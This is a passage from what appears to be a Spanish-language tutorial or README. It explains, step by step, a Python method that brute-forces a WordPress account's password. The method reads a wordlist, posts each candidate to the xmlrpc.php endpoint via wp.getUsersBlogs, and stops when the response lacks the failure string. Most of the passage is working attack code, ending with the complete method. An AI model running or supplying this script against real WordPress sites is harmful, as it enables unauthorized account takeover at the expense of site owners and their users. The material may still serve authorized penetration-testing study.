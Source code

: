 3. **Bucle de fuerza bruta**:
   - Iteramos sobre las contraseñas, limpiándolas con `strip()`:
     ```python
     for password in passwords:
         password = password.strip()
     ```

4. **Construcción del payload XML**:
   - Creamos el payload para el método `wp.getUsersBlogs`, usando el usuario y la contraseña actual:
     ```python
     xml_payload = f"""<?xml version="1.0" encoding="UTF-8"?>
     <methodCall>
         <methodName>wp.getUsersBlogs</methodName>
         <params>
             <param><value>{self.usuario}</value></param>
             <param><value>{password}</value></param>
         </params>
     </methodCall>"""
     ```

5. **Envío de la petición**:
   - Enviamos el payload mediante POST a `self.url_xmlrpc`:
     ```python
     print(f"[+] Probamos con la contraseña {password}")
     response = requests.post(self.url_xmlrpc, data=xml_payload)
     ```

6. **Verificación de la respuesta**:
   - Si la respuesta no contiene "incorrectos.", asumimos que la contraseña es correcta:
     ```python
     if 'incorrectos.' not in response.text:
         print(f"[+] La contraseña del usuario {self.usuario} es {password}")
         sys.exit(0)
     ```

El método completo queda así:
```python
def fuerza_bruta(self):
    with open(self.diccionario, 'r', encoding='latin-1') as file:
        passwords = file.readlines()
    
    for password in passwords:
        password = password.strip()
        xml_payload = f"""<?xml version="1.0" encoding="UTF-8"?>
        <methodCall>
            <methodName>wp.getUsersBlogs</methodName>
            <params>
                <param><value>{self.usuario}</value></param>
                <param><value>{password}</value></param>
            </params>
        </methodCall>"""
        
        print(f"[+] Probamos con la contraseña {password}")
        response = requests.post(self.url_xmlrpc, data=xml_payload)
        
        if 'incorrectos.' not in response.text:
            print(f"[+] La contraseña del usuario {self.usuario} es {password}")
            sys.exit(0)
```

---
